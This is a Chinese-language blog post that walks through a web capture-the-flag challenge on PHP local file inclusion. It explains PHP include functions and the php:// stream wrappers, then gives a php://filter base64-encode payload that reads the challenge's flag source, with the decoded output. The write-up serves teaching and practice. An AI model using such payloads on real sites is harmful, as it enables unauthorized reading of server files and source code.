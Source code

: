 ```yaml
---
layout:     post
title:      FileInclude 
subtitle:   
date:       2020-03-15
author:     SGQ
header-img: img/post-bg-coffee.jpeg
catalog: true
tags:
    - FileInclude 
    - Web
---
```


## 简介:

   程序开发人员一般会把重复使用的函数写到单个文件中，需要使用某个函数时直接调用此文件，
而无需再次编写，这中文件调用的过程一般被称为文件包含。
   程序开发人员一般希望代码更灵活，所以将被包含的文件设置为变量，用来进行动态调用，
但正是由于这种灵活性，从而导致客户端可以调用一个恶意文件，造成文件包含漏洞。





## 题目:

``` html
<body> 

    <div class="navbar navbar-inverse navbar-fixed-top">
      <div class="navbar-inner">
        <div class="container">
          <a class="btn btn-navbar" data-toggle="collapse" data-target=".nav-collapse">
            <span class="icon-bar"></span>
            <span class="icon-bar"></span>
            <span class="icon-bar"></span>
          </a>
          <a class="brand" href="http://blue-whale.me/">blue-whale.me</a>
          <div class="nav-collapse collapse">
            <ul class="nav">
              <li class="active"><a href="./?page=home">Home</a></li>
              <li class="active"><a href="./?page=flag">Flag</a></li>
            </ul>
          </div><!--/.nav-collapse -->
        </div>
      </div>
    </div>

    <div class="container">



ha ha? you want flag? flag is here, but don't let you see!

      <footer>
        <p>&copy; Blue-Whale 2017</p>
      </footer>

    </div> <!-- /container -->


  </body>

```

## 考察点：

**1.文件包含的基本原理**

**2.文件包含如何构造payload**


## 知识点：

PHP文件包含漏洞的产生原因是在通过PHP的函数引入文件时，由于传入的文件名没有经过合理的校验，从而操作了预想之外的文件，就可能导致意外的文件泄露甚至恶意的代码注入。最常见的就属于本地文件包含（Local File Inclusion）漏洞了。

程序开发人员一般会把重复使用的函数写到单个文件中，需要使用某个函数时直接调用此文件，而无需再次编写，这中文件调用的过程一般被称为文件包含。

文件包含漏洞分为：
1.本地文件包含漏洞
顾名思义，就是在网站服务器本身存在恶意文件，然后利用本地文件包含使用
2.远程文件包含漏洞
远程文件包含就是调用其他网站的恶意文件进行打开


php常见的几个文件包含函数：
include(),   include_once(),  fopen(), require(),  require_once()

php伪协议的分类

伪协议是文件包含的基础，理解伪协议的原理才能更好的利用文件包含漏洞。

php://input

php://input代表可以访问请求的原始数据，简单来说POST请求的情况下，php://input可以获取到post的数据。

使用条件：include( )、include_once( )、file_get_contents( )

比较特殊的一点，enctype=”multipart/form-data”的时候 php://input 是无效的。

用法举例：

使用file_get_contents函数的伪协议包含有个经典的例子；
可以使用fputs文件输入流直接服务器某一存在的目录下写入文件。
 

php://output

php://output 是一个只写的数据流，允许你以print和echo一样的方式写入到输出缓冲区。

php://filter

php://filter是一种元封装器，设计用于数据流打开时的筛选过滤应用，也就是作为一种过滤器，可以使用在数据流产生的地方。

在php文档中，标准的定义是这样的：

类似的过滤器还有string.rot13、string.strip_tags、zlib.deflate和zlib.inflate等等，目前只要知道convert.base64-encode就好了。

URL 中包含点的常见形式

?file = xxx 或者 ?file = xxx.php



## 解题过程：

**1.** 首先分析页面代码，发现<li class="active"><a href="./?page=home">Home</a></li>
              <li class="active"><a href="./?page=flag">Flag</a></li>  ，可能出现文件包含漏洞.




**2.** 然后开始构造payload，分析页面发现，http://vps1.blue-whale.me:23338/?page=flag ,这里是靠page参数进行跳转页面，
于是构造payload : ?page=php://filter/read/resource=./flag   ,此段代码的含义可理解为筛选page=flag的页面并读取。但是页面并没有反应，于是我猜想可能是因为过滤了read这个关键词（一般会对一些伪协议的关键词进行过滤，如read、resource等等）。

**3.**试一下将read这个关键词进行BASE64加密，新的payload：?page=php://filter/read=convert.base64-encode/resource=./flag

**4.**得到一组BASE64加密的字符串
`aGEgaGE/IHlvdSB3YW50IGZsYWc/IGZsYWcgaXMgaGVyZTw/cGhwDQovLyB0cnkgdG8gcmVhZCB0aGlzIHNvdXJjZSBjb2RlDQovLyRmbGFnID0gJ2ZsYWd7cmVhbGx5X2Jhc2ljX3NraWxsX3dlYl9kb2dfc2hvdWxkX2tub3d9JzsNCj8+LCBidXQgZG9uJ3QgbGV0IHlvdSBzZWUhDQo=`

**5.**进行解密，得到flag！
`
ha ha? you want flag? flag is here<?php
// try to read this source code
//$flag = 'flag{really_basic_skill_web_dog_should_know}';
?>, but don't let you see! `


**lag{really_basic_skill_web_dog_should_know}**





[参考链接（一）--文件包含原理](https://blog.csdn.net/qq_42133828/article/details/83927058)

[参考链接（二）--文件包含的技巧](https://www.cnblogs.com/ichunqiu/p/10683379.html)

## 谢谢您的查阅，欢迎来访！
